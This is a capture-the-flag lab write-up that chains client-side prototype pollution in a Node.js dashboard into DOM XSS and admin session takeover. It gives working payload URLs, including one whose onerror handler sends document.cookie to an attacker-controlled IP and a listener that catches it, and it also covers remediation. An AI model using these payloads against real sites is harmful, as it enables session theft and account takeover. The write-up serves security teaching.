





<div align="center">

# ☠️ HackSmarter Lab — Prototype Pollution → DOM XSS → Admin Takeover

[](https://hacksmarter.io)
[]()
[]()
[]()
[]()
[]()

**Vulnerability Chain:** Client-Side Prototype Pollution → DOM XSS → Cookie Exfiltration → Privilege Escalation

</div>

---

## 📌 Table of Contents

- [Objective](#-objective)
- [Reconnaissance](#-reconnaissance)
- [Source Code Analysis](#-source-code-analysis)
- [Understanding Prototype Pollution](#-understanding-prototype-pollution)
- [Exploitation](#-exploitation)
- [Privilege Escalation](#-privilege-escalation)
- [Vulnerability Summary](#-vulnerability-summary)
- [Remediation](#-remediation)
- [Attack Chain](#-attack-chain-tldr)
- [Key Takeaways](#-key-takeaways)

---

## 🎯 Objective

> *You are a member of the Hack Smarter Red Team. Your organization is beginning to roll out a managed SOC service. You've been provided access to a staging version of the web app before it's pushed to production. The credentials below mirror a customer — are you able to elevate your privileges and become an Administrator?*

**Provided credentials:** `pentester : HackSmarter123`  
**Goal:** Escalate from low-privilege user → Administrator and access the restricted Incident Response panel.

---

## 🔍 Reconnaissance

### Port Discovery

The target IP responded to ping but returned nothing in the browser on port 80. Rather than assuming the host was down, an Nmap scan was run to enumerate all open services:

```bash
nmap -sC -sV 10.1.141.30
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13
3000/tcp open  http    Node.js Express framework
|_http-title: Hacksmarter | Login
```

The application was running on **port 3000** — a common default for Node.js/Express stacks. Accessing `http://10.1.141.30:3000` presented the login panel.

> 💡 **Lesson:** Always port scan before concluding a target is unreachable. In real engagements, apps on non-standard ports are the norm, not the exception.

### Initial Access

Logging in with the provided credentials reveals an internal dashboard with three sections:

| Section | Access Level |
|---|---|
| Audit Logs | Pentester (low-priv) |
| Webmail | Pentester (low-priv) |
| Incident Response | **Admin only** |



The Incident Response page is gated behind an admin privilege check. The Webmail feature — which allows sending messages to other users, including the admin — is the delivery mechanism for the attack.

---

## 🔬 Source Code Analysis

Inspecting the dashboard's client-side JavaScript exposes two critical functions.

### The Sink — `executeSearch()`

```javascript
function executeSearch() {
    let options = { prefix: "Searching: " };
    if (window.location.hash) syncState(window.location.hash.substring(1), options);

    if (options.renderCallback) {
        const frag = document.createRange().createContextualFragment(options.renderCallback);
        results.innerHTML = "";
        results.appendChild(frag);  // ← SINK
    }
}
```

`createContextualFragment()` is the dangerous sink here. Unlike `innerHTML`, it **parses and executes** full HTML including `<script>` tags. If an attacker can control `options.renderCallback`, they achieve arbitrary JavaScript execution in the victim's browser.

### The Source — `syncState()`

```javascript
function syncState(params, target) {
    const path = key.split('.');
    let current = target;
    for (let i = 0; i < path.length; i++) {
        const part = decodeURIComponent(path[i]);
        if (i === path.length - 1) {
            current[part] = decodeURIComponent(value);  // ← no key sanitization
        } else {
            current[part] = current[part] || {};
            current = current[part];              // ← traverses the object graph freely
        }
    }
}
```

`syncState` reads the URL hash, splits keys on `.`, and **traverses the object graph** to set the final value. There is no sanitization of dangerous keys — specifically `__proto__`, `constructor`, or `prototype`. This is the prototype pollution vector.

---

## 🧬 Understanding Prototype Pollution

### The JavaScript Prototype Chain

Every JavaScript object inherits properties from a shared ancestor: `Object.prototype`. When a property is accessed on an object, the engine first checks the object itself, then walks up the **prototype chain** until it finds the property or reaches the root. This inheritance mechanism is fundamental to JavaScript — and it is the attack surface.

```javascript
const obj = {};
console.log(obj.toString); // not on obj — inherited from Object.prototype
```

### What Prototype Pollution Actually Is

Prototype Pollution is a vulnerability where an attacker **writes properties directly onto `Object.prototype`** using a user-controlled key like `__proto__`. Because `Object.prototype` sits at the root of the inheritance chain, that injected property is then visible on **every object** in the runtime — including objects the attacker never touched.

```javascript
// Attacker injects via __proto__
({}).__proto__.renderCallback = "";

// Every object now carries the property — including freshly created ones
const options = {};
console.log(options.renderCallback); // ""
```

The critical point: `options` was never modified directly. The attacker wrote to the prototype, and `options` **inherited** the polluted value.

### Why This Is More Severe Than Basic Hash-Based XSS

A straightforward hash injection like `#renderCallback=<payload>` sets the property directly on the `options` object — a contained, single-execution side effect that depends on the exact code path running at that moment.

Prototype pollution is fundamentally different in impact:

| | Hash-based XSS | Prototype Pollution |
|---|---|---|
| **Scope** | Single object instance | Every object in the runtime |
| **Persistence** | Until `options` is re-declared | Until page reload |
| **Reachability** | Only if `options.renderCallback` is read | Any object reading `renderCallback` |
| **Survives re-instantiation?** | No — `let options = {}` resets it | **Yes** — new objects still inherit from polluted prototype |

In more complex applications, prototype pollution can reach **completely unrelated code paths** — any code that reads a same-named property on any object becomes a potential sink.

### Connection to This Lab

When `syncState` processes `__proto__.renderCallback`, it traverses off the `options` object onto `Object.prototype` and sets `renderCallback` there. From that point, when `executeSearch()` evaluates `if (options.renderCallback)`, the check passes — not because `options` was directly modified, but because `options` inherits the property from the now-poisoned prototype. The payload is then passed into `createContextualFragment()` and executed.

This is what makes admin cookie theft viable at scale: the prototype is polluted **once** when the admin visits the crafted link, and the payload fires immediately in their browser context.

---

## ⚔️ Exploitation

### Step 1 — Confirming DOM XSS via Direct Hash Injection

Before attempting prototype pollution, the XSS sink was verified with a simple direct injection:

```
http://10.1.141.30:3000/dashboard#renderCallback=%3Cimg%20src=x%20onerror=alert(document.cookie)%3E
```

The alert fired with the current user's session cookie — XSS confirmed.



### Step 2 — Escalating to Prototype Pollution

The direct injection only affects the attacker's own session. To steal the **admin's** cookie, the prototype pollution vector is needed — because it works regardless of how the admin's `options` object was constructed:

```
http://10.1.141.30:3000/dashboard#__proto__.renderCallback=%3Cimg%20src=x%20onerror=print()%3E
```

Confirming `print()` fired via prototype pollution validates the full chain.

### Step 3 — Building the Cookie Exfiltration Payload

An initial attempt using `fetch()` to exfiltrate the cookie did not succeed — likely due to how the browser handles asynchronous requests in the onerror context. Switching to `this.src` — a synchronous image request — resolved the issue:

```
http://10.1.141.30:3000/dashboard#__proto__.renderCallback=
```

URL-encoded for safe delivery:

```
http://10.1.141.30:3000/dashboard#__proto__.renderCallback=%3Cimg%20src%3Dx%20onerror%3Dthis.src%3D%27http%3A%2F%2F10.200.51.189%3A8000%2F%3Fc%3D%27%2Bdocument.cookie%3E
```

An HTTP listener was started on the attacker machine:

```bash
python3 -m http.server 8000
```

### Step 4 — Delivering the Payload via Webmail

The crafted URL was embedded into a message sent to the admin through the platform's Webmail feature:



### Step 5 — Admin Cookie Received

When the admin opened the message and visited the link, the browser fired the `onerror` handler, and the cookie arrived at the listener:



Decoding the session value reveals:

```
user=admin; session=HS_ADMIN_7721_SECURE_AUTH_TOKEN
```

---

## 🚩 Privilege Escalation

With the admin session cookie injected into the browser via DevTools, the previously locked Incident Response page becomes fully accessible:



✅ Privilege escalation complete. Flag captured.

---

## 📖 Vulnerability Summary

<details>
<summary><strong>🔴 CWE-1321 — Prototype Pollution → CWE-79 — DOM XSS → Session Hijack</strong></summary>

| Field | Detail |
|---|---|
| **CWE** | CWE-1321 (Prototype Pollution), CWE-79 (XSS) |
| **Location** | `syncState()` + `executeSearch()` in dashboard client JS |
| **Trigger** | Unsanitized `__proto__` key in URL hash parsed by `syncState()` |
| **Sink** | `createContextualFragment()` consuming attacker-controlled `renderCallback` |
| **Impact** | Arbitrary JS execution in admin context → session cookie theft → full privilege escalation |
| **Authentication Required** | Yes (low-privilege account) |
| **User Interaction Required** | Yes (admin must open attacker's link) |

</details>

---

## 🛠️ Remediation

### 1. Block Prototype-Polluting Keys in `syncState()`

```javascript
// ❌ VULNERABLE
function syncState(params, target) {
    const path = key.split('.');
    let current = target;
    for (let i = 0; i < path.length; i++) {
        const part = decodeURIComponent(path[i]);
        current[part] = ...;
    }
}

// ✅ SECURE — blocklist dangerous prototype keys
const BLOCKED = new Set(['__proto__', 'constructor', 'prototype']);

function syncState(params, target) {
    const path = key.split('.');
    if (path.some(p => BLOCKED.has(decodeURIComponent(p)))) return; // reject and bail
    // ... rest of logic
}
```

### 2. Replace the Dangerous Sink

```javascript
// ❌ DANGEROUS — executes arbitrary HTML/JS
const frag = document.createRange().createContextualFragment(options.renderCallback);

// ✅ SAFE — plain text only, no execution
const div = document.createElement('div');
div.textContent = options.renderCallback;
results.appendChild(div);

// ✅ ALTERNATIVE — use DOMPurify if HTML rendering is genuinely needed
const clean = DOMPurify.sanitize(options.renderCallback);
results.innerHTML = clean;
```

### 3. Set `HttpOnly` on Session Cookies

```
Set-Cookie: session=<token>; HttpOnly; Secure; SameSite=Strict
```

A single `HttpOnly` flag makes the session cookie inaccessible to JavaScript entirely, breaking the exfiltration step regardless of whether XSS fires.

### 4. Freeze the Prototype (Defense in Depth)

```javascript
// Prevents any runtime modification of Object.prototype
Object.freeze(Object.prototype);
```

---

## ⚡ Attack Chain (TL;DR)

```
[Port Scan] → app on :3000 (Node.js/Express), not :80
       ↓
[Login] → pentester:HackSmarter123 → low-priv dashboard
       ↓
[Source Review] → syncState() reads URL hash, sets arbitrary object keys
                  executeSearch() passes options.renderCallback into createContextualFragment()
       ↓
[Prototype Pollution] → #__proto__.renderCallback=<payload>
                        Object.prototype poisoned — all objects inherit the value
       ↓
[DOM XSS] → executeSearch() reads inherited renderCallback → payload executes
       ↓
[Webmail] → crafted link sent to admin with this.src cookie exfiltration payload
       ↓
[Admin Cookie Received] → Python listener catches: session=HS_ADMIN_7721_SECURE_AUTH_TOKEN
       ↓
[Session Hijack] → cookie injected in browser → Incident Response page unlocked
       ↓
[PWNED] 🚩
```

---

## 🧠 Key Takeaways

- **Prototype pollution is a force multiplier.** On its own it looks harmless — paired with a DOM XSS sink it becomes a full privilege escalation chain. Always trace what a pollution primitive reaches downstream.

- **`__proto__` in user input is always critical.** Any function that recursively assigns object properties from user-controlled data must explicitly block `__proto__`, `constructor`, and `prototype`. No exceptions.

- **`createContextualFragment()` is a high-severity sink.** It's rarely used intentionally. Any occurrence in a codebase should be treated as a finding — the default replacement is `textContent` or DOMPurify-sanitized `innerHTML`.

- **`HttpOnly` cookies exist for exactly this reason.** The entire exfiltration step collapses if the session cookie is flagged `HttpOnly`. Set it. Always.

- **`fetch()` failing → try `this.src`.** In constrained onerror contexts, synchronous image requests are more reliable for out-of-band exfiltration than async `fetch()`. Knowing multiple exfiltration techniques matters.

- **Webmail inside a privileged dashboard is a high-risk primitive.** Any feature that causes an admin to visit a URL you control is a potential XSS-to-account-takeover vector. Treat it as such during assessments.

---

<div align="center">

*"You didn't touch the admin's object. You poisoned the prototype everything inherits from."*

[](https://hacksmarter.io)

</div>